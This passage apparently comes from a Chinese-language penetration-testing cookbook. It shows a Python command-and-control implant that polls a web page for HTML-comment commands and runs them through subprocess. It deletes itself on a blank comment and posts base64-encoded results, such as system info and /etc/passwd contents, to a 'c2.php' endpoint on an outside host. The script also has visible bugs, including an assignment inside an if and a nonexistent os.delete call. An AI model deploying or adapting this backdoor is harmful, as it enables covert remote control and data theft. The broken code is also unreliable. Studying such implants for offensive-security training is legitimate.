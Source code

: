 ```py
mysql_close();
?>
```

基本上，这个 PHP 所做的是接收`POST`请求中名为`comment`的传入值，并将其放入数据库中。这非常基础，如果您有多个 shell，它不会区分多个传入命令。

## 如何做…

我们将使用的脚本如下：

```py
import requests
import re
import subprocess
import time
import os

while 1:
  req = requests.get("http://127.0.0.1")
  comments = re.findall('<!--(.*)-->',req.text)
  for comment in comments:
    if comment = " ":
      os.delete(__file__)
    else:
      try:
        response = subprocess.check_output(comment.split())
      except:
        response = "command fail"
  data={"comment":(''.join(response)).encode("base64")}
  newreq = requests.post("http://notmalicious.com/c2.php", data=data)
  time.sleep(30)
```

以下是使用此脚本时产生的输出示例：

```py
Name: TGludXggY2FtLWxhcHRvcCAzLjEzLjAtNDYtZ2VuZXJpYyAjNzktVWJ1bnR1IFNNU CBUdWUgTWFyIDEwIDIwOjA2OjUwIFVUQyAyMDE1IHg4Nl82NCB4ODZfNjQgeDg2X zY0IEdOVS9MaW51eAo= Comment:
Name: cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFl bW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9i aW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jp bi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5 bmM6L2JpbjovYmluL3N5bmMKZ Comment:
```

## 它是如何工作的...

像往常一样，我们导入必要的库并启动脚本：

```py
import requests
import re
import subprocess
import time
import os
```
